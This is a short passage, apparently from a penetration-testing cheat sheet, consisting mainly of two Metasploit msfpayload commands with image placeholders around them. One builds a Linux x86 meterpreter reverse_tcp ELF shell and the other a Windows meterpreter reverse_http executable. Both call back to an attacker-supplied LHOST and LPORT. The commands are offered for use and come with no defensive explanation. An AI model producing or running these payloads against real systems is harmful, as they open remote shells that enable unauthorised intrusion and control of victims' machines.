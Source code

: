 ![enter image description here](img/img2_u49_png.jpg)

Linux(x86)

```
msfpayload linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -t elf -o shell 
```

![enter image description here](img/img3_u59_png.jpg)

**reverse_http**

```
msfpayload windows/meterpreter/reverse_http LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > shell.exe 
```

